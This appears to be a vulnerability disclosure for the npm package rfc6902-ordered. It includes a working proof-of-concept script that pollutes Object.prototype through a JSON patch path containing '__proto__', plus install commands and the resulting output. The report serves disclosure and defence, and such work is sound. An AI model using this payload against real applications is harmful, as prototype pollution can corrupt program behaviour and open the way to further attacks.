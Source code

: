 # Description

`rfc6902-ordered` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var rfc6902 = require("rfc6902-ordered")
var obj = {}
var obj1 = {"__proto__":{"polluted":"Yes! Its Polluted"}}
let patch = [{ op: 'add', path: "/__proto__/polluted", value: "Yes! Its Polluted"}]
let ours = {};
console.log("Before : " + {}.polluted);
rfc6902.applyPatch(ours, patch, obj, obj1);
console.log("After : " + {}.polluted);
```

2. Execute the following commands in terminal:

```
npm i rfc6902-ordered # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
